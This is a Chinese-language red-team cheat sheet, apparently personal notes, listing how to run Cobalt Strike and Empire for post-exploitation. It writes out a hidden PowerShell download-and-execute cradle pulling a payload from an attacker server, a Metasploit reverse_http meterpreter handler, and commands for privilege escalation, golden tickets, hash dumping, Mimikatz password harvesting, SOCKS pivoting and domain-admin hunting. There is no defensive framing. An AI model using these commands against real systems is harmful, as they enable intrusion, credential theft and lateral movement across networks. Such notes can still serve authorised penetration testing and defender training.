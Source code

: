 [[01 跨平台工具#Venom|Venom]]

### CobalStrike

- Server

```shell
./teamserver <IP_ADDRESS> <PASSWORD>
```

- Client

```Shell
./cobaltstrike-client.sh

cobaltstrike-client.cmd
```

- 建立 Listener
`Cobalt Strike -> Listeners`
`Add`
`Name Payload Hosts Port`
`Save`

- 执行 Payload
`Attacks -> Web Drive-by -> Scripted Web Delivery`
`Listener Type`
`Launch`

复制Payload到靶机上执行，如
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.139.151:80/a'))"
```
成功的话会看到一台机器上线
这条命令可以到 `Management -> Manage` 中再次复制

- 交互
右键 `-> Interact`
shell 后键入命令
```
shell whoami
```

- 外置监听器
`Name Host Port`
msf
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost <CS_Server_IP>
set lport <CS_Foreign_Listener_PORT>
run
```
右键上线的某台机器 `-> Access -> Spawn`，选中创建的外置监听器即可，或者直接在命令区键入
```
spawn <Foreign_Listener_Name>
```

- 提权模块
`Access -> Elevate` 或者在命令区键入
```
elevate <EXP> <Listener_Name>
```

- 黄金票据模块
`Access -> Golden Ticket`

- 模拟指定用户
`Access -> Make Token`

- 导出哈希值
`Access -> Dump Hashes` 或在至少具有Administrators组权限的情况下执行
```
hashdump
```

- 尝试收集密码
`Access -> Run Mimikatz`
对打了补丁或者版本较高的系统可能无效

- 创建代理
`Pivoting -> SOCKS Server`

- 常用命令
```
help
help <COMMAND>

sleep <TIME_IN_SECONDS>

getuid

getsystem

getprivs

screenshot

shell <COMMAND> [ARGS]

run <PROGRAM> [ARGS]

powershell <COMMAND> [ARGS]
```

### Empire

```shell
# 信息收集
usemodule situational_awareness/host/ winenum
execute

# 主机发现
usemodule situational_awareness/network/arpscan
set Range 10.26.14.0-10.26.14.254
execute

# 域管理员定位
usemodule situational_awareness/network/powerview/user_hunter
execute
```